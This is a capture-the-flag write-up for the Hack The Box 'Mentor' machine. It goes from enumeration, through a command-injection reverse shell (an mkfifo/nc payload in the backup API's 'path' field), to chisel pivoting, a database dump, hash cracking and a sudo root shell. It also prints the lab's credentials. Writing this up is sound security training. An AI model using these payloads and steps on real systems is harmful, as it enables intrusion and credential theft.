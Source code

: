 # HTB-Mentor

Hack the Box has released a new machine called Mentor . It's a very easy machine compared to medium level . <br><br> 
The IP of this machine is ``10.129.84.145``. 
![Mentor](https://user-images.githubusercontent.com/114393219/206896209-01c78889-0dd5-4e9f-941c-439e11b20dcb.png)
<br> <br>
Lets get started !!
<br>
I first started with nmap scan by the command ``nmap -T4 -A 10.129.84.145`` , as usual two ports were open port `22` and `80` . <br>
# Nmap Scan
````
└─# nmap -T4 -A 10.129.84.145
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-11 15:07 IST
Nmap scan report for 10.129.84.145
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c73bfc3cf9ceee8b4818d5d1af8ec2bb (ECDSA)
|_  256 4440084c0ecbd4f18e7eeda85c68a4f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://mentorquotes.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=12/11%OT=22%CT=1%CU=35835%PV=Y%DS=2%DC=T%G=Y%TM=6395A5
OS:04%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=110%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST
OS:11NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)EC
OS:N(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   282.33 ms 10.10.14.1
2   282.43 ms 10.129.84.145

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.03 seconds
````
Then add ``mentorquotes.htb`` to ``/etc/hosts``
<br>
# FOOTHOLD 
## Subdomain
I started subdomain enumeration using fuff : ``ffuf -u "http://mentorquotes.htb" -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -mc all -fc 302`` <br>
<br>
I got ``api.mentorquotes.htb`` and added it to ``/etc/hosts`` . <br>
## Directories 
Now Scan directories in ``api.mentorquotes.htb`` using command : ``ffuf -u "http://api.mentorquotes.htb/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt - mc all -fc 404`` <br><br>
I got this result :
![image](https://user-images.githubusercontent.com/114393219/206897099-faa5d8c4-4a7f-46d1-8ced-633c2a19b7c7.png)
<br><br>
``http://api.mentorquotes.htb/docs`` &  ``http://api.mentorquotes.htb/admin`` are intresting . <br><br>
After visiting ``http://api.mentorquotes.htb/docs`` we found that there is admin(James).
<br><br>
![image](https://user-images.githubusercontent.com/114393219/206897480-72544262-c828-4556-9520-158edf585ea7.png)
<br><br>
Now create a new user with same name as "James" but with different mail . <br><br>
![image](https://user-images.githubusercontent.com/114393219/206898094-9bac2d2b-5edb-41a8-bbe3-60d7756c4466.png)
<br><br>
Then login and get your authorization token .
![image](https://user-images.githubusercontent.com/114393219/206898185-e641818c-c9cf-4556-b76a-0e3516aae577.png)
<br><br>
## Lets get Reverse Shell : 
<br>
Curl this payload to get reverse shell :

````
curl -X 'POST' \
'http://api.mentorquotes.htb/admin/backup' \
-H 'accept: application/json' \
-H 'Content-Type: application/json' \
-H 'Authorization: <your_token>' \
-d '{
"path": "`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> <PORT> >/tmp/f`"
}'
````
Note : Make  sure you have started a netcat listner on your attacker machine using ``nc -lvnp <PORT>``.
<br><br>

![image](https://user-images.githubusercontent.com/114393219/206898547-253e4a25-fbc1-4254-bfac-d46e48a5e751.png)

<br><br> 

And Boom !! We got reverse shell :
<br><br>

![image](https://user-images.githubusercontent.com/114393219/206898618-36ddf815-c678-4b1f-abe9-14a2b17f0f6a.png)
<br><br>

After few research I found intresting file in ``/app/app/db.py`` . <br>
Now cat out the contents on ``db.py`` and we got the DB creds .
![image](https://user-images.githubusercontent.com/114393219/206899466-ef0e0533-b7f5-4d99-8f5e-cf81083ec2a5.png)

<br><br>
## Port Forwarding
Now we have to do port forwarding(postgresql port) so that we can access DB locally on our machine using ``chisel`` .
<br>
By Using Python http server, deliver the chisel binary to our target's `/tmp` folder. <br>
On Attacker Machine (Kali) :
````
./chisel server --port 8888 --reverse
````
On Target : 
````
./chisel client -v <Attacker_IP>:8888 R:5432:172.22.0.1:5432
````
## SSH 
After successfully port forwarding , dump the Postgresql DB using cmd : 
````
pg_dump -h 127.0.0.1 -p 5432 -d mentorquotes_db -U postgres -W
````
password : postgres <br>
<br>
We got the creds :
![image](https://user-images.githubusercontent.com/114393219/206900436-15d0bff6-c954-472b-9a6a-1707964a07fd.png)

<br>

But its a hash(MD5) , Now crack it using ``hashcat`` . James password was unable to crack but we cracked the svc password ``53f22d0dfa10dce7e29cd31f4f953fd8:123meunomeeivani`` .
<br>

Now Let's SSH to ```svc@mentorquotes.htb``` using the creds we got . 
<br><br>
Now we are in as svc user ! & grab the user flag .

![image](https://user-images.githubusercontent.com/114393219/206901084-e004141b-7be2-4308-824c-aee2aa2a9237.png)

## Priv-Esc
I tried `sudo -l` but svc is unable to use sudo on `mentorquotes.htb` . Then using this cmd ``grep -iR pass /etc`` , I found intesting config file i.e ``/etc/snmp/snmpd.conf`` . <br><br>

![image](https://user-images.githubusercontent.com/114393219/206901316-2ff204e0-f677-444a-b8ad-ca9ff6de4eef.png)

We got the James password ``SuperSecurePassword123__`` . Now ``su james`` and enter the password we found in that .conf file . <br>
Now we are user James !! 
<br><br>

![image](https://user-images.githubusercontent.com/114393219/206901688-22095f09-927b-4401-8e31-4363a81e53b3.png)

## Root
In this box getting root is very easy :) . <br>
Just ``sudo /bin/sh`` and now you are root !!
<br><br>

![image](https://user-images.githubusercontent.com/114393219/206902080-92d6fecb-8ea4-4fdd-ad0c-40a66eca82b6.png)

Thank you for reading :) ! Have a nice day !

